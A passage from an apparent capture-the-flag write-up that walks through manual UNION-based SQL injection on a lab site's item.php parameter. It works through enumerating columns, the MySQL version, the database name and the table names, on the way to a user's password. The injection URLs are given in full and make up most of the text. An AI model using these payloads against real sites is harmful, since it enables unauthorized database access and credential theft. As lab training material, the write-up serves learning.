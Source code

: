 Now we have identified an area to perform an SQL injection attack and also found out that a MySQL server is running.

At this point I tried to use sqlmap to automate the injection but was not successful with the tool telling me that the target content was not stable.

**Finding the number of columns in to use**\
- We can find number of columns required by increasing the number of NULLs we use after the id value:
	- /item.php?id=100 UNION SELECT NULL
	- This returns a message `The used SELECT statements have a different number of columns`
	- IMAGE SQLI COLUMN ENUM
	- So we continue to add another NULL in the following request until we find a successful request using 5 NULL values
				-  /item.php?id=100 UNION SELECT NULL, NULL, NULL, NULL, NULL

### SQL Database Enumeration

Now that we have a vaild request we can start using our NULL columns to get information from the database. In order to get to the information we want (eventually Dennis' password) I tried to follow a logical path in my injection
	- Find version
	- Find database name
	- Find a table that is likely to hold Dennis' password
	- Find the password
 Resources I used to conduct my SQLi:
		- 

**Get version using version()**\
- /item.php?id=100 UNION SELECT VERSION(), NULL, NULL, NULL, NULL
- This didn't show anything new on the page so I put the tried it in all columns
- /item.php?id=100 UNION SELECT VERSION(), VERSION(), VERSION(), VERSION(), VERSION()
- IMAGE SQLI VERSION
- Testing the column usage I settled on using the fourth parameter going forward as it wasn't displayed with other text from the webpage

**Get database name using database() function**\
- /item.php?id=100 UNION SELECT NULL, NULL, NULL,  DATABASE(), NULL
- Shows up at x package = park package

**Get tables from park database**\
The SQL command we are looking to perform is:
```SQL
SELECT TABLE_NAME
  FROM INFORMATION_SCHEMA.COLUMNS
  WHERE TABLE_SCHEMA = 'my_database';
```
This gives us the following URL to try:\
- /item.php?id=100 UNION select NULL, NULL, NULL, table_name, NULL FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = "park"
- IMAGE SQLI USER TABLE

This shows us there is a table called "users" in the database. To check if there are any other tables we can use the [group_concat()](https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php) function
- /item.php?id=100 UNION select NULL, NULL, NULL, group_concat(table_name), NULL FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = "park"
- IMAGE SQLI GROUP CONCAT TABLE
